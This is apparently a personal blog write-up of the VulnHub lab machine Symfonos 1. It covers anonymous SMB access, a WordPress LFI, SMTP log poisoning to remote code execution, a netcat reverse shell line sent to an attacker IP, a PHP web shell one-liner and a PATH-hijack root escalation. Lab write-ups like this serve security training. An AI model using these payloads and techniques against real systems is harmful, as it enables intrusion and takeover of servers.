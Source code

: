 ```yaml
---
layout: post
title: Vulhub - Symfonos writeup
date: 2019-07-05 12::10
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/symfonos-1,322/">Symfonos</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/zayotic/"> zayotic</a></h4>

## Nmap

![](images/sym/nmap.png)

Okay we see SMB port open so let's just run `enum4linux` and see what we can find more information about it.

![](images/sym/enum4linux.png)

We can see that we are allowed to list `/anonymous` share, this can be done using `smbclient`.

![](images/sym/smb-anon.png)

***

__Command explanation__
```bash
➜ smbclient //192.168.43.222/anonymous -U % -N
```

Here the `-U` is for `username` and `%` basically uses `single-space` as the username.

The `-N` argument is used for `No-password`

For more detail you can read: [stackexchange/accessing-a-smb-share-without-a-password](https://unix.stackexchange.com/questions/65106/accessing-a-smb-share-without-a-password)

***

Now we can use `get` command to get that file to our machine and then read it.

![](images/sym/get.png)

We can see that there are passwords in this file which is pretty good, we won't have to bruteforce anything :)

## Dirsearch

Now shifting my focus to the website that was running on port `80`. I decided to run `dirsearch`.

![](images/sym/dirsearch.png)

None of them were useful in anyway.

***

After spending more then an hours searching through SMTP and the `anonymous` smb share I finally found something, actually I thought of something and that got me something.

I tried reading the `heilos` SMB share with all the password I got from `attention.txt` and to my surprise it worked.

```bash
➜ smbclient //192.168.43.222/helios -U helios
```

The password was `qwerty`

![](images/sym/helios-smb.png)

**I should've tried this the moment I got some random passwords.** 🤦‍♂️

We can see that there's suppose to be `h3l105/` on the website.

***

Visiting that webpage I got a wordpress website so I decided to use `wpscan`.

```bash
$ wpscan --url http://192.168.43.222/h3l105/ --wp-content-dir wp-content --enumerate u
```

With this command I was only able to get a single user named `admin`

![](images/sym/user.png)

After scratching my head for quite sometime I decided to talk to one and only [__@DCAU7__](https://twitter.com/DCAU7), he provided me with the right command from which I was able to get some vulnerable plugins.

```bash
➜ wpscan --url http://symfonos.local/h3l105/ -e p --no-banner --no-update
```

![](images/sym/vuln.png)

***

__Problem with WPSCAN__

The actual problem was that when I first tried uing wpscan I was using the IP of the machine. But then I edited my `/etc/host` file by adding following line to it:

```
IP     symfonos.local
```

After that instead of using the IP I used `symfonos.local` in wpscan and it gave the vuln plugin. Anyway, back to work.

***

Since we don't have the credentials for WP login we'll use the [unauthenticated LFI](https://www.exploit-db.com/exploits/40290)

We try the link that is mentioned in the exploit i.e `/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd` and it works.

![](images/sym/passwd.png)

After searching a lot on `how to get reverse shell via LFI` and trying to read other files from the system I was able to read the `helios` mail file in `/var/mail/`

![](images/sym/reset.png)

Using this link we can reset the password and login into the wordpress.

***

At first I thought this is it because now we can just get a reverse shell via themes but that thing didn't worked. I tried updating the `404.php` template of the `twentynine` theme but whenever I clicked on the `update file` button I got an error.

![](images/sym/error.png)

We can't edit any file there because the wordpress removed the support to edit templates from dashboard sometime ago and since this wordpress is latest verion i.e 5.2.2, it isn't working in this.

This seems like a dead end.

***

I went back to reading files and then I stubled upon this article called [`SMTP Log Poisioning through LFI to Remote Code Excecution`](https://www.hackingarticles.in/smtp-log-poisioning-through-lfi-to-remote-code-exceution/). I followed the article and was able to poision the logs and have RCE.

![](images/sym/send-mail.png)

After this if we read the `/var/mail/helios` we can see

![](images/sym/mail.png)

Here I tried lot of the reverse shell payload from [PayloadsAllTheThings/reverse-shell-cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
but none of them work.

After talking with the author they said I should URL encode the payload before using it. And that one worked.

```bash
➜ http http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php\?pl\=/var/mail/helios\&c\=nc%20-e%20%2Fbin%2Fsh%20192.168.43.70%204444

```

![](images/sym/reverse.png)

***

It's time to enumerate to find our key to `pwning root`. I used enumeration script to do that part:

![](images/sym/suid.png)

So there's a SUID file which isn't present there ususally. Let's see what it does:

![](images/sym/statuscheck.png)

It's printing some header information. Since it's a binary we can't see exactly what's  inside it but we can still run `strings` on the binary to see if we find can something.

![](images/sym/strings.png)

If we look carefully we can see
```
curl -I
http://l
ocalhost
```

this mean it's using `curl -I http://localhost` and we are getting only the headers because it's using `-I` argument.

We can easily exploit this because the problem with this is that it's using `curl` and not `/bin/curl` or something like that. So we can just make our own curl file and then run the SUID binary to get the root shell.

![](images/sym/exploit.png)

* `echo $'#!/bin/sh\n/bin/sh' > curl`: This will make a file named `curl` which will have `/bin/sh` in it.
* `chmod +x curl`: We change the permission for the file to make it executable.
* `export PATH=$(pwd):$PATH`: This will add the current path to the `PATH` variable.

__NOTE__: run the export command from the directory you've made the `curl` file in. In my case I did all of the above from `/tmp`.

After this we can just read the flag file which in this case was named `proof.txt`

![](images/sym/root.png)

***

## Another method for Reverse shell

There's one other method to get a reverse shell on the system. Instead of just sending

```php
<?php system($_GET['c']); ?>
```

We can send the complete php reverse shell([php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)) in the email data.

And when we'll try to read the email it will trigger the shell.

This is probably the faster way to get the reverse shell.

@DCAU7 told me about this neat trick.


***

This was really awesome machine, I got to learn a lot from this machine.

__Thanks to:__

* [@zayotic](https://twitter.com/zayotic) for creating an awesome machine,
* [@DCAU7](https://twitter.com/DCAU7) for helping me out.
